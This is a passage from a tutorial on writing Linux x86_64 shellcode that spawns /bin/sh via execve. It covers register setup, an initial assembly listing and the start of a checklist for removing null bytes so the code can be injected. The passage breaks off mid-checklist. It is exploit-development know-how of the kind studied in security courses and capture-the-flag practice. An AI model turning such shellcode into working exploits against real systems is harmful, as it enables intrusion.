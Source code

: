 
* * *

# 4\. Writing a Custom /bin/sh Shellcode (Step-by-Step)

You can write a minimal shellcode to run `/bin/sh` using the `execve` syscall, which on Linux x86_64 has:

- `rax = 59` → syscall number
    
- `rdi = pointer to "/bin//sh"`
    
- `rsi = pointer to ["/bin//sh", NULL]`
    
- `rdx = NULL`
    

### Why "/bin//sh"?

Because it's exactly **8 characters** long, and Linux ignores repeated slashes. This lets you load it directly into a register like `mov rdi, 0x68732f2f6e69622f`.

* * *

# 5\. Sample Assembly (Initial Version)

```
global _start

section .text
_start:
    mov rax, 59         ; syscall: execve
    push 0              ; NULL byte (bad!)
    mov rdi, '/bin//sh' ; string literal
    push rdi            ; onto the stack
    mov rdi, rsp        ; rdi → "/bin//sh"
    push 0              ; NULL byte (bad!)
    push rdi            ; argv[0] = "/bin//sh"
    mov rsi, rsp        ; rsi → ["/bin//sh", NULL]
    mov rdx, 0          ; NULL env (bad!)
    syscall

```

This version will **not work** for shellcode injection because it uses NULLs. You must rewrite it using NULL-free methods.

* * *

# 6\. Fixing NULL Bytes (Checklist)

To make this shellcode safe for injection:

1.  Replace `push 0` or `mov reg, 0` with:
    